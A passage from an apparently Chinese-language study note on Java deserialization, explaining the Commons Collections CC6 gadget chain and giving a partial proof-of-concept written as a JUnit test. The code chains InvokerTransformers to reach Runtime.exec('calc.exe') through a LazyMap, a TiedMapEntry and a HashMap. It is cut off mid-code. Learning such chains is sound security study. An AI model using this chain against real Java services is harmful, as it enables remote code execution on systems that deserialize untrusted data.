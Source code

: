     ![image-20230517101822905](Serialization-Java/image-20230517101822905.png)
3. 因此，给它的 map 赋值，然后调用其 `hashCode()`，即可触发。

### 6.2 POC 编写

1. 具体细节见：

    > https://www.freebuf.com/articles/web/320466.html

    注意其中有些注意点。

2. Payload：

    ```java
    // CC 4.0
    @Test
        public void testCC6() throws NoSuchFieldException, IllegalAccessException {
            // 1. 构造链 sink
            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer<>(Runtime.class),
                    new InvokerTransformer<>("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                    new InvokerTransformer<>("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                    new InvokerTransformer<>("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
            };
            ChainedTransformer transformedChain = new ChainedTransformer(transformers);
    
            // 2. kick-off 创建 HashMap
            HashMap<Object, Object> toBeSerializedHashMap = new HashMap<>();
    
            // 3. 构建 chain2，创建 LazyMap，先不传链的后半部分，让链断开，这样 put 时调用 HashMap.hashCode() 时不会触发链
            LazyMap<Object, Object> lazyMap = LazyMap.lazyMap(new HashMap<>(), new ChainedTransformer());
    
            // 4. 然后构建 chain1，创建 TiedMapEntry，注意这里，它最终会调用到 LazyMap.get("EndlessShw")，由于 LazyMap 中没有键为 EndlessShw，所以会向里面塞一个 key 为 EndlessShw
            // 在 CC1 中提到，LazyMap `get()` 获取不到 key 时，从而调用 `transform()`，因此要清除掉他的 Key
            TiedMapEntry lazyMapTiedMapEntry = new TiedMapEntry<>(lazyMap, "EndlessShw");
    
            // 5. 将 kick-off 和 chain 相连
            toBeSerializedHashMap.put(lazyMapTiedMapEntry, "随便");
    
            // 6. 把 lazyMap 中塞入的 key 给去掉
            lazyMap.remove("EndlessShw");
            // 当然也可以使用 clear
            // lazyMap.clear();
    
